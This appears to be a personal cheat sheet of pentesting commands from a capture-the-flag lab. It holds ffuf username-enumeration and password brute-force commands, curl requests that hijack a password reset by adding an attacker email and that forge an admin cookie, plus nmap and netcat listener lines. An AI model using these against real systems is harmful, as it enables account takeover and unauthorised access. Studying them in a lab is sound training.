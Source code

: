 # Upgrades

    sudo apt update -y && sudo apt upgrade -y


# Enumeration (subdomains)(username)(atthentication bypass)
# ffuf

    ffuf -w /usr/share/wordlists/seclists/Usernames/Names/names.txt -X POST -d "username=FUZZ&email=x&password=x&cpassword=x" -H "Content-Type: application/x-www-form-urlencoded" -u http://10.10.54.22/customers/signup -mr "username already exists" -fs {size}


-w wordlists path

-u url ex https://google.com

-H host/header

-fs switch, which tells ffuf to ignore any results that are of the specified size.

-d argument specifies the data that we are going to send

-mr argument is the text on the page we are looking for to validate we've found a valid username.

-X method of request {POST,GET ,DELETE}

-fc argument to check for an HTTP status code other than 200.

= FUZZ //worldlists content

    ffuf -w valid_usernames.txt:W1,/usr/share/wordlists/seclists/Passwords/Common-Credentials/10-million-password-list-top-100.txt:W2 -X POST -d "username=W1&password=W2" -H "Content-Type: application/x-www-form-urlencoded" -u http://10.10.54.22/customers/login -fc 200

# Curl
    curl 'http://10.10.54.22/customers/reset?email=robert%40acmeitsupport.thm' -H 'Content-Type: application/x-www-form-urlencoded' -d 'username=robert'
    curl 'http://10.10.54.22/customers/reset?email=robert%40acmeitsupport.thm' -H 'Content-Type: application/x-www-form-urlencoded' -d 'username=robert&email=attacker@hacker.com'
    curl -H "Cookie: logged_in=true; admin=true" http://MACHINE_IP/cookie-test
    
# Nmap
    nmap -sV -sC -A http//ip/ -oN output.txt
    
    
# SSH
    ssh username@ip
  
  
# SU
    switch user: su - username 
    sudo su username
  
  
# ftp(file transfer protocol)
    ftp ip
    get filename
    
# netcat
    nc -lvnp <port-number>
    nc <target-ip> <chosen-port>
    
-l is used to tell netcat that this will be a listener

-v is used to request a verbose output

-n tells netcat not to resolve host names or use DNS. Explaining this is outwith the scope of the room.

-p indicates that the port specification will follow.

